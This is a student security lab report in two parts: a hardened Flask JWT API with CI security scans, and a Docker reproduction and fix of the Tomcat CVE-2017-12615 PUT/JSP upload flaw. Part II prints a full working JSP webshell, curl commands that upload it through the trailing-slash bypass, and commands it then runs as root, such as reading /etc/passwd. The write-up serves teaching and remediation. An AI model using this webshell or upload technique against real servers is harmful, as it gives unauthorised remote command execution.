





The purpose of this laboratory work is to gain practical experience in the full security lifecycle of a backend application: designing protection against the OWASP Top 10, integrating automated security checks into CI/CD, reproducing a known real-world CVE in a controlled environment, identifying its root cause, applying a fix, and verifying that the fix both eliminates the attack and does not break normal functionality.
The work consists of two connected parts. Part I implements a secure REST API with Flask, parameterized database access, output escaping, bcrypt password hashing and JWT authentication, and runs static and dependency security scans on every push. Part II uses Vulhub and Docker to reproduce CVE-2017-12615 against Apache Tomcat 8.5.19, analyses the configuration and input-handling weaknesses that make the attack possible, and verifies a remediation based on a patched release and secure configuration.
| Layer | Choice |
|---|---|
| Language / framework | Python 3.12+ / Flask 3.1 |
| Database | SQLite through SQLAlchemy ORM (Flask-SQLAlchemy) |
| Authentication | JWT (PyJWT, HS256) and bcrypt password hashes |
| Tests | pytest, pytest-cov |
| CI/CD | GitHub Actions |
| SAST / SCA | Bandit / pip-audit |
The public repository is
https://github.com/ynjlzxpl/hdu-internet-security-work1.
The application factory is in app/__init__.py; the two blueprints
are app/auth.py and app/api.py; security helpers are in
app/security.py; the models are in app/models.py; the
31 automated tests are under tests/.
| Method | Path | Authentication | Description |
|---|---|---|---|
| POST | /auth/login | No | Validate username/password and issue a JWT. |
| GET | /api/data | Bearer JWT | List notes owned by the authenticated user; optional
?search= filter. |
| GET | /api/data/<id> | Bearer JWT | Read one note, only if it belongs to the caller. |
| POST | /api/data | Bearer JWT | Third, self-chosen endpoint: create a note for the caller. |
| GET | /api/users/me | Bearer JWT | Return the authenticated user's profile. |
| GET | /health | No | Liveness probe. |
A successful login returns an access token:
POST /auth/login
{"username": "alice", "password": "AliceDemo123!"}
200 OK
{"access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
"token_type": "Bearer", "expires_in": 3600}
Protected data is retrieved with the token:
GET /api/data Authorization: Bearer <access_token>
Calling any protected endpoint without a token, with a tampered signature, with
an expired token, or with an alg=none token returns
401 Unauthorized. Notes that belong to another user are returned as
404, so the API does not reveal their existence.
select(...).where(...), db.session.get(...)).
No SQL statement is built by string concatenation, and no interpolated
text() query exists in the application.Note.title.ilike(pattern). Quotes, -- and
OR 1=1 in the value are therefore treated as data, never as
SQL syntax.Note.owner_id == g.current_user.id.
This is both an access-control control and a structural protection
against injection that would otherwise return other users' rows.^[A-Za-z0-9_.-]{3,32}$; password length is bounded; search is
truncated to 100 characters; note fields are type- and length-checked.alice' OR '1'='1 are rejected by the username whitelist and
cannot authenticate.markupsafe.escape() through
app.security.sanitize(), used when notes and profiles are
serialised. Stored data remains intact; the response contains
<script> instead of executable markup.Content-Type: application/json; input is never reflected into
an HTML document.X-Content-Type-Options: nosniff,
X-Frame-Options: DENY,
Referrer-Policy: no-referrer, and
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'.
A test creates a note with the title
<script>alert('xss')</script>. The response contains
<script>alert('xss')</script>;
the raw <script> tag never appears in the output.
sub, iss, iat and
exp claims. The default lifetime is one hour.@jwt_required decorator
requires the Bearer scheme, verifies the HMAC signature, uses an explicit
algorithm allow-list (rejecting alg=none and algorithm
confusion), validates the issuer, requires all four claims, rejects
expired tokens, and loads the user from the database. Tokens for deleted
users fail.Cache-Control: no-store.429 with Retry-After.JWT_SECRET comes from the
environment; with APP_ENV=production the application refuses
to start without it. Development only uses an ephemeral random fallback.
The test suite is executed with pytest -q --cov=app --cov-report=term-missing.
It contains 31 tests and reaches 85% statement
coverage (100% of api.py, auth.py and
models.py). The tests cover:
alg=none and
deleted-user tokens;
The workflow .github/workflows/ci.yml runs on every push and pull
request to main (and can be started manually). It has three jobs:
| Job | Tool | Action |
|---|---|---|
| Tests | pytest + coverage | Runs the full suite; uploads coverage.xml. |
| SAST | Bandit | Static analysis of app/; fails on medium/high findings;
uploads bandit-report.txt. |
| SCA | pip-audit | Audits pinned dependencies against PyPI/OSV vulnerability data;
fails on any known vulnerability; uploads
pip-audit-report.json. |
Latest results: all three jobs passed. Bandit report: No issues identified — 0 low, 0 medium, 0 high (508 lines scanned). pip-audit: 12 dependencies audited, 0 with known vulnerabilities.
Last successful pipeline run: https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/runs/39352597970



| Property | Value |
|---|---|
| CVE | CVE-2017-12615 — Apache Tomcat DefaultServlet PUT / JSP upload remote code execution |
| CVSS v3.1 | 8.1 High (AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| Vulnerable component | Apache Tomcat DefaultServlet,
HTTP PUT support, with the readonly initialisation parameter
set to false |
| Affected releases | Per NVD, Tomcat 7.0.0–7.0.79 on Windows; the same PUT/JSP-upload weakness is demonstrated by Vulhub on Tomcat 8.5.19. The related bypass CVE-2017-12617 affects 8.5.0–8.5.22 and was fixed in 8.5.23. |
| Vulhub path | tomcat/CVE-2017-12615 |
| Impact | Unauthenticated file write into the web root, followed by JSP execution as the Tomcat user (root in this container). |
The vulnerability was chosen because the reproduction is short (a build plus two HTTP requests), the principle is easy to explain (an insecure DefaultServlet configuration combined with an incomplete file-extension check), and the impact is unambiguous: remote code execution. It also complements the SQLi/XSS protection work in Part I because it demonstrates an input-handling flaw in a widely deployed web container.
The environment is the official Vulhub compose file at
vulhub/tomcat/CVE-2017-12615. Its Dockerfile starts from Tomcat
8.5.19 and injects an insecure readonly=false parameter into
conf/web.xml:
<init-param> <param-name>readonly</param-name> <param-value>false</param-value> </init-param>
The container is started with:
docker compose -f vulhub/tomcat/CVE-2017-12615/docker-compose.yml \ --project-directory vulhub/tomcat/CVE-2017-12615 up -d --build
vulhub/tomcat:8.5.19, so the
official tomcat:8.5.19-jre8 image was pulled and locally tagged as
vulhub/tomcat:8.5.19. The Vulhub Dockerfile was used unchanged and
therefore still injects the same readonly=false configuration.
The vulnerable behaviour is identical.
Confirmed environment properties:
Server version: Apache Tomcat/8.5.19 Server built: Jul 24 2017 21:01:14 UTC 119:<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param> $ docker exec ... id uid=0(root) gid=0(root) groups=0(root)
The attacker needs network access to port 8080 and does not need any
credentials. The payload is a small JSP page that executes a command passed in
the cmd parameter:
<%@ page contentType="text/plain;charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null && cmd.length() > 0) {
Process p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
InputStream in = p.getInputStream();
ByteArrayOutputStream out = new ByteArrayOutputStream();
byte[] buf = new byte[4096];
int n;
while ((n = in.read(buf)) != -1) out.write(buf, 0, n);
response.getWriter().print(out.toString("UTF-8"));
}
%>
Step 1 — upload the JSP. The request targets
/shell.jsp/ with a trailing slash. Tomcat's extension check does
not treat the path as a .jsp write, but the filesystem removes the
trailing separator and creates shell.jsp in the web root.
curl -i -X PUT "http://127.0.0.1:8080/shell.jsp/" \
--data-binary "@shell.jsp" \
-H "Content-Type: application/octet-stream"
HTTP/1.1 201
Step 2 — execute commands. A GET request compiles and runs the uploaded page. Because the container runs Tomcat as root, the command executes as root.
curl "http://127.0.0.1:8080/shell.jsp?cmd=id"
uid=0(root) gid=0(root) groups=0(root)
curl -G "http://127.0.0.1:8080/shell.jsp" \
--data-urlencode "cmd=cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
curl -G "http://127.0.0.1:8080/shell.jsp" \
--data-urlencode "cmd=touch /tmp/pwned_by_cve_2017_12615; ls -l /tmp/pwned_by_cve_2017_12615"
-rw-r----- 1 root root 0 Oct 20 02:21 /tmp/pwned_by_cve_2017_12615

The vulnerability is not caused by a single missing quote or a malformed SQL query; it is the combination of an insecure configuration and an incomplete validation check:
DefaultServlet is mapped to /, so it serves the
web root. Its secure default is readonly=true. The Vulhub
Dockerfile explicitly inserts readonly=false, which turns on
the servlet's PUT/DELETE write operations.
This is the primary configuration error: a read-only file-serving
component is changed into an unauthenticated file-upload interface..jsp. The check is performed on the request
path, without reconciling it with the path that the operating system
will actually create. A trailing / (and, on other systems,
encoded separators or ::$DATA) bypasses the suffix test,
while the filesystem normalises the trailing separator away. The file
is therefore written as shell.jsp, exactly the dangerous
type the check was supposed to block. This is a canonicalisation /
input-validation flaw (CWE-434, unrestricted upload of a dangerous file
type).webapps/ROOT. A later GET is served by the
JSP servlet, which compiles and executes it. There is no separate
authentication or authorisation step for this execution.In our own words: the server was configured to accept write requests it should never accept, and the only protection left — a filename suffix blacklist — was bypassed because the server checked one representation of the path while the filesystem used another. The result is an unauthenticated write of an executable JSP into a directory that the server later executes.
The fix, stored in vulhub-fix/, combines the vendor's version fix
with the correct configuration:
tomcat:8.5.23-jre8. Tomcat 8.5.23 contains the fix for
CVE-2017-12617, the bypass of the CVE-2017-12615 remediation
(affected 8.5.0–8.5.22). Using a patched release protects against the
bypass even if similar mistakes are made again.readonly=false. DefaultServlet
therefore keeps its secure default readonly=true, and PUT
and DELETE are rejected.--- Dockerfile (vulnerable)
+++ Dockerfile (fixed)
@@
-FROM vulhub/tomcat:8.5.19
-
-RUN cd /usr/local/tomcat/conf \
- && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | awk '{print $1}') \
- && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
- && sed -i "$LINE i $ADDON" web.xml
+FROM tomcat:8.5.23-jre8
+# readonly remains at its secure default (true); PUT/DELETE are rejected.
The folder contains Dockerfile, docker-compose.yml,
diff.patch and a short README.md with the run and
verification commands.
The vulnerable container was stopped with docker compose down, the
fixed environment was rebuilt with up -d --build, and exactly the
same exploitation steps were repeated:
Server version: Apache Tomcat/8.5.23 no readonly init-param (secure default true) PUT /shell.jsp/ -> HTTP/1.1 403 Forbidden GET /shell.jsp?cmd=id -> HTTP 404 GET / -> HTTP 200 (regression) GET /docs/ -> HTTP 200 (regression)
The PUT request is now rejected by DefaultServlet before any file
is written, so the JSP never enters the web root and the subsequent GET returns
404. The default Tomcat page and the documentation webapp still return 200,
which confirms that normal read functionality was not damaged by the upgrade or
the configuration change. This is the required regression test.

SHA-256 is a fast general-purpose hash. An attacker who obtains a password database can test billions of candidate passwords per second on GPUs; unsalted hashes additionally allow rainbow-table lookups. bcrypt is deliberately slow, uses a unique random salt per password, and has an adjustable cost factor, so each guess is expensive and precomputed tables are useless. The cost can be raised as hardware becomes faster. This makes offline brute-force and credential-stuffing attacks much less practical.
SAST (Static Application Security Testing) analyses source code or bytecode without executing the program. It is white-box, can run early in development, and can point to the exact line of a flaw, but it produces false positives and cannot see runtime configuration. DAST (Dynamic Application Security Testing) tests a running application from the outside, like an attacker. It is black-box, finds runtime and configuration issues and real exploitability, but it cannot see the source, gives less precise remediation guidance, and requires a deployed application.
A JWT consists of three Base64URL-encoded parts: header, payload and signature.
The header names the signing algorithm (for example HS256); the payload carries
claims such as sub (user id), iss (issuer),
iat (issued-at) and exp (expiration). The payload is
encoded, not encrypted, so it must not contain secrets. The signature is
computed over the header and payload with a server-side secret (HMAC) or a
private key (RSA/ECDSA). On each request the server recomputes and compares the
signature with the configured algorithm, validates the issuer, requires the
mandatory claims, and checks that the token has not expired. Our middleware
also rejects alg=none by using an explicit algorithm allow-list.
Dependencies can contain known vulnerabilities (for example Log4Shell), can be
compromised in a supply-chain attack, can pull in vulnerable transitive
packages, or can have licence and maintenance problems. Without an SCA process
the organisation may ship a vulnerable component for months, may not know what
is actually deployed, and cannot prioritise patching. Our pipeline runs
pip-audit on every push so that a newly disclosed advisory fails
the build, and all dependencies are pinned for reproducibility.
Containers isolate the vulnerable service from the host, so a compromise or a destructive test does not damage the student's machine. The environment is reproducible and version-pinned, can be rebuilt or destroyed in seconds, and can be run on any machine with Docker. Vulhub provides ready-made compose files and documented CVEs, which removes hours of setup and lets the student focus on the vulnerability. Direct installation pollutes the host, risks exposing the vulnerable service on the network, and is difficult to reproduce exactly.
A vulnerability is a weakness in software or configuration (for example,
DefaultServlet accepting PUT with readonly=false and an incomplete
suffix check). An exploit is the concrete technique or input that takes
advantage of that weakness (the PUT request with a trailing slash and a JSP
payload, followed by a GET that executes it). In this work we reproduced the
exploit against a deliberately vulnerable Tomcat 8.5.19 container to
demonstrate the underlying vulnerability and its impact.
Security fixes often change request parsing, file handling or configuration. A patch that blocks the attack but also breaks legitimate requests is not an acceptable fix. Regression testing proves that both requirements hold: the malicious request is rejected and normal functionality still works. In our verification the malicious PUT returned 403 and the webshell returned 404, while the default page and the documentation webapp still returned 200. Without this check we could have “fixed” the service by breaking it.
Reproducing a CVE builds a concrete understanding of the attacker's sequence of actions, the affected versions and the observable artefacts. A pentester can validate exposure and demonstrate impact to a client instead of reporting a theoretical finding. A SOC analyst can write and test detection rules against the real traffic, distinguish false positives, and prioritise alerts. Incident responders can recognise the exploitation pattern, and defenders can verify that a patch or WAF rule actually blocks the attack. It also supports risk prioritisation and secure configuration baselines.
Part I produced a working, tested Flask API that applies the main OWASP protections: ORM-based parameterized queries, output escaping, bcrypt password storage, JWT authentication with strict verification, ownership checks, input validation and security headers. Thirty-one tests pass with 85% coverage, and a three-job GitHub Actions pipeline runs the tests, Bandit SAST and pip-audit SCA on every push with zero findings.
Part II reproduced CVE-2017-12615 in an isolated Vulhub/Docker environment. The
attack required only an unauthenticated PUT request and a GET request, yet it
produced root-level command execution because Tomcat was configured with
readonly=false and the servlet's JSP-suffix check was bypassed by a
trailing slash. The fix upgrades Tomcat to 8.5.23 and removes the insecure
configuration. Repeating the same attack against the fixed environment returns
403 for the PUT and 404 for the webshell, while normal pages still return 200.
The exercise demonstrates that configuration errors and incomplete input
validation can be as dangerous as code-level bugs, and that an effective
remediation must be verified against both the exploit and the application's
legitimate functionality.
| Item | Location |
|---|---|
| Public repository | https://github.com/ynjlzxpl/hdu-internet-security-work1 |
| README (project, API, security, CVE) | README.md in the repository root |
| Last successful pipeline | https://github.com/ynjlzxpl/hdu-internet-security-work1/actions/runs/39352597970 |
| Fix folder | vulhub-fix/ (Dockerfile, docker-compose.yml, diff.patch, README.md) |
| CVE evidence | docs/cve/evidence/ (raw command output); docs/screenshots/cve-vulnerable.png, cve-fixed.png |
| CI evidence | docs/screenshots/ci-run-summary.png, sast-bandit.png, sca-pip-audit.png; docs/ci/ reports |